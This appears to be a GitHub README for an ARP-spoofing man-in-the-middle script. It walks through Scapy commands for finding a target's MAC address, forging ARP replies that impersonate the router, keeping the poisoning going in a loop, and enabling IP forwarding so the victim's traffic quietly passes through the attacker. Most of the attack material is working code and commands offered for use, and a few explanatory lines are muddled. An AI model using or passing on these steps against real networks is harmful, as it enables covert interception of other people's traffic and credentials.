 # ArpSpoof-MITM-Framework

  ## Script usage
        --> (attack on a network with 3 machines: router, attacker, target)

                python3 arp-mitm.py {ROUTERIP} {TARGETIP}

        [-] Attacker sends ARP request to broadcast (everyone on LAN) in order to receive a response from someone who knows
            where the target machine is located 
            
            --> This request contains the broadcast address and the
                IP address of the target machine 
            
            --> The request essentially asks everyone on the network (through the broadcast address) who has {targetIP}? 
                Hopefully a machine on the network who knows the location (MAC address of target machine) will respond with the 
                information we are looking for --> the target machines MAC address

        [-] Now that we have the MAC address of the target machine we can use it to craft a malicious packet that will tell
            the target machine that our MAC address is the same as the routers MAC address
            
            --> This will cause every outgoing packets from the target machine will be sent to both the router and the target
                machine
    
  ## Some useful Scapy commands:

        [-] ls(ARP) --> will list all fields required by an ARP packet
        
        [-] important fields: op, hwsrc,psrc, hwdst, pdst
        
        [-] packet = ARP(pdst='<TARGET IPADDR>') --> set pdst (destination address) to TARGETS IPADDR
        
        [-] packet.show --> show the current state of the packet being crafted
        
        [-] packet.op = 1 --> sending request --> "who has ..."
        
        [-] packet.op = 2 --> sending response

  ## Methodology: 

        [-] Send arp request through the broadcast MAC address, every machine on the LAN will receive 
            request and possibly send the reply
        
        [-] Impacket (manually):
            
                Getting mac address of target machine w/ spoofed ARP request :

                [-] broadcast = Ether(dst='ff:ff:ff:ff:ff:ff') --> Broadcast Address

                [-] arp_layer = ARP(pdst='{TARGETIP}')

                [-] entire_packet = broadcast/arp_layer --> combines arp_layer and broadcast layer into packet

                [-] answer = srp(entire_packet, timeout=2, verbose=True)[0] --> sending request to broadcast

                [-] print(answer) --> will show request and response if any received

                [-] print(answer[0])

                [-] target_mac_address = answer[0][1].hwsrc --> get mac address of target                                                                                                                                                                                                                              
                [-] print(target_mac_address)

  ### Craftinfg Malicious Packets:

            [-] We are essentially going to craft a packet that will tell the target machine that
                    the attacker machine is a router, so it sends all of its packets to the attacker machine
                
            [-] packet = ARP(op=2, hwdst=target_mac_address, pdst='192.168.0.131', psrc='192.168.0.1')
                    
                    --> psrc is address of machine we want to impersonate (router)
                    --> run `netstat -nr` in terminal to find addr of router on your network (gateway)
                
            [-] packet.show() will show the contents of our malicious packet
                
            [-] send(packet, verbose=False) --> sends malicious packet to spoof targets ARP table
            
  ### Arp-tables on target machine:

            [-] You can run the command `arp -a` on the target machine before sending the malicious packet, 
                    and again after sending the malicious packet to confirm if we successfully spoofed the arp
                    tables on the target machine

            [!] Script should be run in a while loop to continuosly spoof the targets arp tables since the target machine will also still 
                send the same ARP requests we are sending still

            [!] If the target machine is unable to access the internet after it has been spoofed then you may need to run this command on your 
                attacker machine to forward the packets --> echo 1 >> /proc/sys/net/ipv4/ip_forward 
